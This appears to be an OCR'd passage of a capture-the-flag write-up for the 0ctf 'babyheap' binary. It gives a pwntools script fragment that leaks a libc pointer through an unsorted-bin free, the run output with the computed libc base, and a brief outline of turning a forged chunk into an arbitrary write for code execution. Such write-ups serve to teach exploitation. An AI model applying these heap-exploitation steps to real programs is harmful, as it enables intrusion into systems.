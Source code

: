```python=
#set back to unsorted size
payload2 = b""
payload2 += p64(0)*5
payload2 += p64(0x91)
Fill(3,payload2)

Free(4)    # add libc pointer in FD from unsortedbin

leak = u64(Dump(2)[:8])
libc_base = leak-0x39bb78
print("Leak:",hex(leak))
print("Libc Base:",hex(libc_base))
```
The output:
```bash
root@test:/ctf/work$ python3 0heap.py 
[+] Starting local process './0ctfbabyheap': pid 2310
[*] running in new terminal: /usr/bin/gdb -q  "./0ctfbabyheap" 2310
[-] Waiting for debugger: debugger exited! (maybe check /proc/sys/kernel/yama/ptrace_scope)
[!] Could not populate PLT: module 'unicorn' has no attribute 'UC_ARCH_ARM64'
[*] '/ctf/work/0ctfbabyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[!] Could not populate PLT: module 'unicorn' has no attribute 'UC_ARCH_ARM64'
[*] '/glibc/2.23/64/lib/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
 1. Allocate
2. Fill
3. Free
4. Dump
5. Exit
Command: $ 
[*] Interrupted
Leak: 0x7f5d50536b78
Libc Base: 0x7f5d5019b000
```
### RCE
We can use the same method as described above to gain remote code execution.

Instead of doing a partial overwrite to create a forged chunk that pointed to another chunk, we can forge a chunk that points to an arbitrary address and use the `Fill` feature of the binary to get an arbitrary write. 

